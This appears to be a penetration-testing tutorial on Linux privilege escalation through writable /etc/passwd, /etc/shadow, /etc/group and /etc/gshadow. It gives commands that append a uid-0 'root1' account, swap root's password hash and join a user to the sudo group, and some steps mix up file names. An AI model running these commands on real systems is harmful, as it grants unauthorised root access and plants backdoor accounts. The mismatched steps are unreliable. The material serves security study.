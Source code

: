  
###### Table of Contents

- [Default Permissions of Important Files in Linux](#**Default%20Permissions%20of%20Important%20Files%20in%20Linux**)
		- [Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux:](#Understanding%20file%20permissions%20is%20crucial%20for%20privilege%20escalation%20and%20security%20assessments.%20Below%20are%20the%20default%20permissions%20of%20critical%20system%20files%20in%20Linux:)
- [Privilege Escalation via sensitive files](#Privilege%20Escalation%20via%20sensitive%20files)
	- [1. Privilege Escalation through /etc/passwd](#1.%20Privilege%20Escalation%20through%20**/etc/passwd**)
			- [1.1 check the permission of /etc/passwd](#1.1%20check%20the%20permission%20of%20/etc/passwd)
			- [1.2 generate password hash](#1.2%20generate%20password%20hash)
			- [1.3 Edit The /etc/passwd](#1.3%20Edit%20The%20/etc/passwd)
			- [1.4 Then login with *root1* user using our password](#1.4%20Then%20login%20with%20*root1*%20user%20using%20our%20password)
	- [2. Privilege Escalation through /etc/shadow](#2.%20Privilege%20Escalation%20through%20**/etc/shadow**)
			- [2.1 check the permission of /etc/shadow](#2.1%20check%20the%20permission%20of%20/etc/shadow)
			- [2.2 generate password hash](#2.2%20generate%20password%20hash)
			- [2.3 Edit The /etc/shadow file](#2.3%20Edit%20The%20/etc/shadow%20file)
			- [2.4 Then login with root1 user using our password](#2.4%20Then%20login%20with%20root1%20user%20using%20our%20password)
	- [3. Privilege Escalation through /etc/group](#3.%20Privilege%20Escalation%20through%20**/etc/group**)
			- [3.1 check the permission of /etc/group](#3.1%20check%20the%20permission%20of%20/etc/group)
			- [3.2 Edit the /etc/group](#3.2%20Edit%20the%20/etc/group)
			- [3.3  Reset Connection](#3.3%20%20Reset%20Connection)
			- [3.4  login with normal user / get Shell](#3.4%20%20login%20with%20normal%20user%20/%20get%20Shell)
	- [4. Privilege Escalation through /etc/gshadow](#4.%20Privilege%20Escalation%20through%20**/etc/gshadow**)
			- [4.1 check the permission of /etc/gshadow](#4.1%20check%20the%20permission%20of%20**/etc/gshadow**)
			- [4.2 generate password hash](#4.2%20generate%20password%20hash)
			- [4.3 edit the /etc/gshadow](#4.3%20edit%20the%20/etc/gshadow)
			- [4.4  login with sudo / wheel group](#4.4%20%20login%20with%20**sudo%20/%20wheel**%20group)

 
##  **Default Permissions of Important Files in Linux**

#### Understanding file permissions is crucial for privilege escalation and security assessments. Below are the default permissions of critical system files in Linux:

the default permissions of critical system files in Linux:

| **File**       | **Default Permissions** | **Owner** | **Group** | **Purpose**                                     |
| -------------- | ----------------------- | --------- | --------- | ----------------------------------------------- |
| `/etc/passwd`  | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores user account details (but not passwords) |
| `/etc/shadow`  | `-rw------- (600)`      | `root`    | `shadow`  | Stores hashed passwords (only root can access)  |
| `/etc/group`   | `-rw-r--r-- (644)`      | `root`    | `root`    | Stores group information                        |
| `/etc/gshadow` | `-rw------- (600)`      | `root`    | `shadow`  | Stores group passwords (if any)                 |
| `/etc/crontab` | `-rw-r--r-- (644)`      | `root`    | `root`    | System-wide cron jobs                           |
| `/etc/sudoers` | `-r--r----- (440)`      | `root`    | `root`    | Controls sudo access                            |
## Privilege Escalation via sensitive files

### 1. Privilege Escalation through **/etc/passwd**


**If we got write permission for other user on /etc/passwd  then we can create hash and add into it ** 

#####  1.1 check the permission of /etc/passwd
```bash
ls -lha /etc/passwd
```

![](Attachments/attachments/Pasted%20image%2020250221183500.png)

#####  1.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)

##### 1.3 Edit The /etc/passwd  

read  the /etc/passwd file Then 
Clone the root user information edit root to root1 (we can also add only passwd hash for root user)
After that paste into /etc/passwd file and also add the created hash password.( you can use any editor but here I am going to use echo )
```bash
echo 'root1:$1$NBIvZax5$jv3IXEGcWtVxsfayNTv9B0:0:0:root:/root:/bin/bash' >> /etc/passwd 
```

![](Attachments/attachments/Pasted%20image%2020250221182917.png)

Apart of hash we can also use 0 (zero) for empty password 

##### 1.4 Then login with *root1* user using our password 
![](Attachments/attachments/Pasted%20image%2020250221192427.png)




### 2. Privilege Escalation through **/etc/shadow**

**If we got write permission for other user on /etc/shadow then we can create hash and add into it or we can go with crack the hash using password cracking tools  ** 

#####  2.1 check the permission of /etc/shadow
```bash
ls -lha /etc/shadow
```

![](Attachments/attachments/Pasted%20image%2020250221190658.png)


#####  2.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


##### 2.3 Edit The /etc/shadow file 
Replace root hash with our created hash 

```bash
vim /etc/passwd    #will open vim editor then replace root password hash
```

![](Attachments/attachments/Pasted%20image%2020250221192122.png)
![](Attachments/attachments/Pasted%20image%2020250221192032.png)

##### 2.4 Then login with root1 user using our password

```bash
su - root1
```

![](Attachments/attachments/Pasted%20image%2020250221192427.png)





### 3. Privilege Escalation through **/etc/group**

**if we got write permission for other user on /etc/group then we can add user into group**
#####  3.1 check the permission of /etc/group
```bash
ls -lha /etc/group
```

![](Attachments/Pasted%20image%2020250221193720.png)


##### 3.2 Edit the /etc/group
Add user into **wheel/sudo** group (if system is debian base then add into sudo group or if system is red-hat base then add into wheel group)
Here I am using debian base system so I'll add user into sudo group 

```bash
vim /etc/group
```

![](Attachments/Pasted%20image%2020250221200113.png)
![](Attachments/Pasted%20image%2020250221200237.png)


##### 3.3  Reset Connection
Firstly we should logout or reset the connection after that we can get root access

```bash
exit
```

![](Attachments/Pasted%20image%2020250221200849.png)

##### 3.4  login with normal user / get Shell
![](Attachments/Pasted%20image%2020250221201128.png)

then get root access using **sudo su** command
```bash
sudo su
```

![](Attachments/Pasted%20image%2020250221201305.png)



### 4. Privilege Escalation through **/etc/gshadow**
if we got write permission for other user on **/etc/gshadow** then we can add hash for **sudo/wheel** group to get root access

#####  4.1 check the permission of **/etc/gshadow**
```bash
ls -lha /etc/shadow
```

![](Attachments/Pasted%20image%2020250221204324.png)


#####  4.2 generate password hash

```bash title:"generate password hash"
openssl passwd 1234
```

![](Attachments/attachments/Pasted%20image%2020250221172947.png)


#####  4.3 edit the /etc/gshadow
edit the **/etc/gshadow** and add generated has for** **sudo/wheel** group. ( according to os *debian = sudo*  or *red-hat = wheel *)

```bash
vim /etc/gshadow
```

![](Attachments/Pasted%20image%2020250221205551.png)
![](Attachments/Pasted%20image%2020250221205227.png)

##### 4.4  login with **sudo / wheel** group 

```bash
sg sudo #acording to os sudo / wheel
```

After that we will get all access 
![](Attachments/Pasted%20image%2020250221210301.png)

Then run **sudo su** command 
```bash
sudo su 
```

![](Attachments/Pasted%20image%2020250221210441.png)
